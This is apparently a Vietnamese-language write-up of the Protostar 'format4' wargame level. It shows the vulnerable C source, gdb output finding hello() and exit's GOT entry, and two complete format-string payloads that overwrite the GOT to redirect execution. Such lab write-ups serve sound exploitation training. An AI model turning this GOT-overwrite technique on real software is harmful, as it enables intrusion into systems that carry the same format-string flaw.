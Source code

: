 # FORMAT FOUR

## About

format4 looks at one method of redirecting execution in a process.

Hints:

  * objdump -TR is your friend

This level is at /opt/protostar/bin/format4

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT FOUR` cho chúng ta thấy được khi overwrite everywhere sử dụng format string được ghi vào những vị trí chuyển hướng thực thi trong chương trình sẽ giúp chúng ta điều khiển luồng thực thi chương trình thực thi theo ý ta muốn.

Thử thách này hoàn thành khi ta in ra được dòng chữ `"code execution redirected! you win"` nhưng lại không hề có điều kiện hay chỗ nào gọi đến hàm `hello()` trong hai hàm mà chương trình sẽ thực thi là `main()` và  `vuln()`.

Ý tưởng của bài này là sẽ ghi đè địa chỉ hàm `hello()` lên địa chỉ của hàm `exit(1)` được lưu trong `GOT - Global Offset Table` để khi thoát hàm `vuln()` chương trình sẽ chuyển hướng thực thi tới `hello()` thay vì gọi hàm `exit(1)` và thoát chương trình.

Địa chỉ hàm `hello()`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) set disassembly-flavor intel
(gdb) p hello
$1 = {void (void)} 0x80484b4 <hello>
```

Tiếp theo là địa chỉ trong `GOT` nơi chứa địa chỉ của `exit(1)`. Bạn có thể đọc hiểu rõ hơn về `GOT` và `PLT` ở tài liệu tôi để ở `Documents`. 

```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   ebp
0x080484d3 <vuln+1>:    mov    ebp,esp
0x080484d5 <vuln+3>:    sub    esp,0x218
0x080484db <vuln+9>:    mov    eax,ds:0x8049730
0x080484e0 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x080484e4 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x080484ec <vuln+26>:   lea    eax,[ebp-0x208]
0x080484f2 <vuln+32>:   mov    DWORD PTR [esp],eax
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    eax,[ebp-0x208]
0x08048500 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) x/2i 0x80483ec
0x80483ec <exit@plt>:   jmp    DWORD PTR ds:0x8049724
0x80483f2 <exit@plt+6>: push   0x30
(gdb)
```

Vậy là `GOT của exit(1) = 0x8049724`.

```
                 1      2      3
hex     | \xb4 | \x84 | \x04 | \x08 |
decimal | 180  |  388 |  516 |  776 |
Đã có   |  16  |  180 | 388  |  516 |
Cần     |  164 | 208  | 128  | 260  |
para    |  4   |  5   |  6   |   7  |
Addr:
0x80497xx| 24  | 25   | 26   |  27  |

```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08" + "%164x" + "%4$n" + "%208x" + "%5$n" + "%128x" + "%6$n" + "%260x" + "%7$n"' | ./format4
$%&'                                                                                                                                                                 200                                                                                                                                                                                                        b7fd8420                                                                                                                        bffffb04                                                                                                                                                                                                                                                             8049724
code execution redirected! you win
```

Cách điền `hn-hn` bạn có thể tự viết nó khi đã nắm vững hơn cách overwrite everywhere bằng format strings.

```
python -c 'print "\x24\x97\x04\x08\x26\x97\x04\x08" + "%" + str(0x84b4 - 8) + "x%4$hn" + "%" + str(0x10804 - 0x84b4) + "x%5$hn"' | ./format4
```

## Documents

<https://www.exploit-db.com/papers/13203>



